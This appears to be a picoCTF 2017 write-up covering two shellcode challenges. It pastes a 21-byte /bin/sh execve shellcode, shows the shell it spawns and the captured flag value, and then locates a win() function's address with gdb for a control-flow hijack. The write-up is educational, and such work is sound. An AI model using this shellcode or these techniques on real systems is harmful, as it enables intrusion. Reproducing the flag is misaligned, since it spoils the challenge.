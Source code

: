<p>Look into the shellz.c code. It will execute <em>bytes as a function</em>. First, lets find shellcode that is less than 40 bytes long.</p>

<p>Here is a good <a href="http://shell-storm.org/shellcode/files/shellcode-811.php">one</a> that is 21 bytes. </p>



<pre class="prettyprint"><code class="language-no-highlight">&gt; echo -e "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2$
My mother told me to never accept things from strangers                               
How bad could running a couple bytes be though?                                       
Give me 40 bytes:                                                                     

ls                                                                                    
flag.txt                                                                              
shellz                                                                                
shellz_no_aslr                                                                        
xinetd_wrapper.sh                                                                     
cat flag.txt                                                                          
4effa67d6909029fd3cc45600f024e3f    </code></pre>



<h4 id="shells">Shells</h4>

<blockquote>
  <p>How much can a couple bytes do? Use <a href="https://webshell2017.picoctf.com/static/8ee8b9f60eb42472a741748770af94ff/shells">shells</a>! <a href="https://webshell2017.picoctf.com/static/8ee8b9f60eb42472a741748770af94ff/shells.c">Source</a>. Connect on shell2017.picoctf.com:55049.</p>
</blockquote>

<p>This is kind of suspicious in the shells.c. The function win will read the flag! </p>



<pre class="prettyprint"><code class=" hljs coffeescript"><span class="hljs-regexp">//</span><span class="hljs-attribute">TODO</span>: Ask IT why <span class="hljs-keyword">this</span> <span class="hljs-keyword">is</span> here
<span class="hljs-reserved">void</span> win(){
    system(<span class="hljs-string">"/bin/cat ./flag.txt"</span>);    
}</code></pre>

<p>Perhaps we can play with the function <code>win</code>. We can’t just pipe in shellcode because.. now, unfortunately, the program only wants 10 bytes! </p>

<p>First, let’s get the address of the function <code>win</code> with gdb.</p>



<pre class="prettyprint"><code class="language-no-highlight">gdb shells
(gdb) print &amp;win
$1 = (&lt;text variable, no debug info&gt; *) 0x8048540 &lt;win&gt; </code></pre>

<p>Awesome! So the memory location we want is 0x8048540. Now, there are two options. You can either jump to it or push it to the instruction pointer, and return. I’ve decided to push to the address. </p>

<p>This is a <a href="https://defuse.ca/online-x86-assembler.htm#disassembly">useful tool</a> for converting from assembly to byte code. </p>
